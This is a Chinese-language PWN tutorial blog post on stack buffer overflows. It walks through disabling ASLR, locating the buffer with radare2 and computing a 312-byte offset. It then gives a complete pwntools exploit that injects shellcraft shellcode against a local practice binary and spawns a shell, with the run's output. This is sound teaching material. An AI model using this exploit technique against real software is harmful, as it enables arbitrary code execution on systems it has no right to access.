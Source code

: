 ```yaml
---
title: Shellcode
subtitle: 运行你自己的指令
date: 2023-08-08T05:09:08+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


在真正的漏洞利用中，你不太可能拥有 `win()` 函数。Shellcode 是一种允许 **运行你自己的
指令** 的方法，使你能够在系统上运行任意命令。

**Shellcode** 本质上是 **汇编指令**，一旦我们将它输入到二进制文件中，它就会覆盖
返回指针以劫持代码，指向并执行我们自己的指令。

<!--more-->

{{<admonition type="warning">}}

我保证你可以相信我，但你永远不应该在不知道 shellcode 作用的情况下运行它。
Pwntools 很安全，并且几乎拥有你需要的所有 shellcode。

{{</admonition>}}

Shellcode 成功的原因是 [冯·诺伊曼结构](https://zh.wikipedia.org/wiki/%E5%86%AF%C2%B7%E8%AF%BA%E4%BC%8A%E6%9B%BC%E7%BB%93%E6%9E%84)（当今大多数计算机使用的体系结构）不区分
数据和指令——无论你告诉它在哪里运行或运行什么内容，它都会尝试运行它。因此，
即使我们输入的是攻击指令，计算机也不知道这一点，我们可以利用它来发挥我们的优势。

{{< link href="/pwn_assets/shellcode.zip" content="shellcode.zip" title="Download shellcode.zip" download="shellcode.zip" card=true >}}

## 0x01 禁用 ASLR

ASLR 是一种安全技术，虽然它不是专门为对抗 shellcode 而设计的，但它涉及随机化
内存的某些方面（我们稍后将更详细地讨论它）。这种随机化可能会使我们的 shellcode
变得不可靠，所以我们现在将 [禁用](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) 它。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

{{<admonition type="info">}}

类似这样的功能性指令以后还会碰到更多，我建议使用 `alias` 为它们创建一个别名。
因为就算不考虑能不能记住这些指令，如果每次都手动输入那么长的指令也是一件很
浪费时间的事情。

{{</admonition>}}

{{<admonition type="warning">}}

再次强调，如果你不知道指令的作用，则永远不要运行该指令。

{{</admonition>}}

## 0x02 确定缓冲区位置

使用 `radare2` 调试 `vuln()` ，并找出缓冲区在内存中的起始位置；这就是我们
想要将返回指针指向的位置。

```bash
$ r2 -d -A ./vuln

[0xf7fe3fd0]> s sym.unsafe; pdf
[...]
; var int32_t var_134h @ ebp-0x134
[...]
```

打印出来的这个值是一个 **局部变量**。根据它的大小，可以判断出它很可能是缓冲区。
让我们在 `gets()` 之后设置一个断点并找到确切的地址。

```bash
[0x08049172]> db 0x080491a8
[0x08049172]> dc
Overflow me
<<IM HERE>>         <== This was my input
INFO: hit breakpoint at: 0x80491a8
[0x080491a8]> px @ ebp-0x134
- offset -  B4B5 B6B7 B8B9 BABB BCBD BEBF C0C1 C2C3  456789ABCDEF0123
0xffffd6b4  3c3c 494d 2048 4552 453e 3e00 2e4e 3df6  <<IM HERE>>..N=.
[...]
```

它似乎位于 `0xffffd6b4`；如果我们多次运行二进制文件，它应该保持在原来的位置
（如果没有，请确保 **禁用 ASLR！**）。

## 0x03 计算溢出 Padding

现在我们需要计算溢出 Padding。我们将使用 De Bruijn 序列，如上一篇博客文章中所述。

```bash
$ ragg2 -r -P 500
<COPY THIS>

$ r2 -d -A ./vuln
[0xf7fe3fd0]> dc
Overflow me
<<PASTE HERE>>
[0x73424172]> wopO `dr eip`
312
```

得到溢出 Padding 是 312 字节。

## 0x04 编写 EXP

为了使 shellcode 正确，我们将把 `context.binary` 设置为我们的二进制文件；
这会获取诸如架构、操作系统和位数之类的东西，并使 pwntools 能够为我们提供
shellcode。

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()
```

{{<admonition type="info">}}

我们可以只使用 `process()` ，因为一旦设置了 `context.binary` 就默认假定
使用该进程。

{{</admonition>}}

现在我们可以使用 pwntools 出色的 shellcode 功能轻易的构建 shellcode 。

```python
# 构建 Shellcode
payload = asm(shellcraft.sh())
# 溢出 Padding
payload = payload.ljust(312, b'A')
# Shellcode 的地址
payload += p32(0xffffd6b4)
```

现在让我们将其发送出去并使用 `p.interactive()`，它使我们能够与
shell 通信。

```python
log.info(p.clean())

p.sendline(payload)

p.interactive()
```

{{<admonition type="warning">}}

如果你收到 `EOFError`，请打印出 shellcode 并尝试在内存中查找它。
栈地址可能是错误的。

你可以参考这篇 [博客](https://www.cubeyond.net/ret2win/) 中的方法来解决这个问题。

{{</admonition>}}

```bash
$ python3 exp.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 3903
[*] Overflow me
[*] Switching to interactive mode
$ whoami
cub3y0nd
$ ls
exp.py  source.c  vuln
```

## 0x05 最终 EXP

```python {title="exp.py"}
from pwn import *

context.binary = ELF('./vuln')

p = process()

# 构建 Shellcode
payload = asm(shellcraft.sh())
# 溢出 Padding
payload = payload.ljust(312, b'A')
# Shellcode 的地址
payload += p32(0xffffd6b4)

log.info(p.clean())

p.sendline(payload)

p.interactive()
```

## 0x06 总结

- 当提示输入时，我们注入了 shellcode（一系列汇编指令）
- 然后，我们通过覆盖栈上保存的返回指针以指向我们的 shellcode
来劫持代码执行
- 一旦返回指针弹出到 EIP 中，它就指向我们的 shellcode
- 这导致程序执行我们的指令，为我们（在本例中）提供了用于执行
任意命令的 shell
